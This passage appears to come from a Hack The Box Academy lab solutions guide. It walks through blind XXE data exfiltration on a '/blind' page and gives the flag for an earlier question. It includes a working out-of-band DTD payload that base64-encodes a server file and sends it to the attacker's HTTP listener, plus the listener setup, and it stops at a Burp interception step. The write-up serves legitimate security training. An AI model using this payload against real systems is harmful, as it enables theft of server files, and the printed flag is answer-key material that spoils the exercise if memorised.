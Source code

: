 ![[HTB Solutions/CBBH/z. images/f96f7d801f634a50d84df2fb443ee2ae_MD5.jpg]]

Answer: `HTB{3rr0r5_c4n_l34k_d474}`

# Blind Data Exfiltration

## Question 1

### "Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag."

After spawning the target machine, students first need to create the OOB DTD file on Pwnbox/`PMVPN`:

Code: shell

```shell
cat > XXE.dtd << EOF
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://PWNIP:PWNPO/?content=%file;'>">
EOF
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cat > XXE.dtd << EOF
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.134:8000/?content=%file;'>">
EOF
```

Afterward, students need to start an HTTP server:

Code: shell

```shell
python3 -m http.server PWNPO
```

```
┌─[us-academy-1]─[10.10.14.134]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Afterward, students need to run `Burp Suite`, make sure that FoxyProxy is set to the preconfigured option "Burp (8080)" in Firefox, and intercept the request to `/blind/submitDetails.php` to change its request method from `GET` to `POST`:

![[HTB Solutions/CBBH/z. images/da7cd1f64780f66cbc19fbd95891a791_MD5.jpg]]
